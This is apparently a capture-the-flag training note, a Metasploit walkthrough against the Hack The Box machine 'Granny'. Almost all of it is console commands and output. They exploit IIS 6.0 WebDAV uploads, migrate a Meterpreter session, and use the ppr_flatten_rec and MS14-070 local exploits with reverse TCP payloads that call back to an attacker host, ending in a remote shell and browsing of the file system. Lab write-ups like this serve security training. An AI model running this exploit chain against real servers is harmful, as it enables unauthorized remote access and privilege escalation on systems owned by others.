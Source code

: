 ### Metasploit training
```shell 

msf exploit(windows/iis/iis_webdav_upload_asp) > set RHOST 10.10.10.15
RHOST => 10.10.10.15
```
**Always set LHOST**

```shell 
msf exploit(windows/iis/iis_webdav_upload_asp) > set LHOST 10.10.14.11
LHOST => 10.10.14.11
msf exploit(windomsws/iis/iis_webdav_upload_asp) > run
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > 
*****
meterpreter > background
[*] Backgrounding session 1...
msf post(windows/manage/migrate) > set SESSION 1
SESSION => 1
msf post(windows/manage/migrate) > run
[*] Running module against GRANNY
[*] Current server process: notepad.exe (2680)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 3420
[+] Successfully migrated to process 3420
[*] Post module execution completed
msf post(windows/manage/migrate) > sessions 1
[*] Starting interaction with 1...
meterpreter > sysinfo
Computer        : GRANNY
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
*****
```
**Ask Ask Suggester**
```shell
msf post(windows/manage/migrate) > use post/multi/recon/local_exploit_suggester 
msf post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf post(multi/recon/local_exploit_suggester) > exploit 
```
*****
**Take one exploit**
```shell
msf post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ppr_flatten_rec 
msf exploit(windows/local/ppr_flatten_rec) > set session 1
session => 1
*****
msf exploit(windows/local/ppr_flatten_rec) > set lhost 10.10.14.11
lhost => 10.10.14.11
msf exploit(windows/local/ppr_flatten_rec) > set WAIT 20
WAIT => 20
```
**Remember Set LHOST on reverseTCP:**
```shell
msf exploit(windows/local/ppr_flatten_rec) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
```
```shell
msf exploit(windows/local/ppr_flatten_rec) > set LHOST 10.10.14.11
msf exploit(windows/local/ppr_flatten_rec) > exploit
*****
meterpreter > cd ..
meterpreter > cd ..
meterpreter > cd ..
meterpreter > pwd
c:\
meterpreter > ls
Listing: c:\
============
*****
meterpreter > cd "Documents and Settings"
*****
```
**Other exploit:**
```shell 
msf exploit(windows/local/ppr_flatten_rec) > use exploit/windows/local/ms14_070_tcpip_ioctl 
msf exploit(windows/local/ms14_070_tcpip_ioctl) > set session 2
msf exploit(windows/local/ms14_070_tcpip_ioctl) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(windows/local/ms14_070_tcpip_ioctl) > set LHOST 10.10.14.11
LHOST => 10.10.14.11
msf exploit(windows/local/ms14_070_tcpip_ioctl) > run
```
#### WHY
+ Server: Microsoft-IIS/6.0
+ OSVDB-397: PUT HTTP method 'PUT' allows clients to save files on the web server.
+ OSVDB-5646: DELETE HTTP method 'DELETE' allows clients to delete files on the web server.
https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp
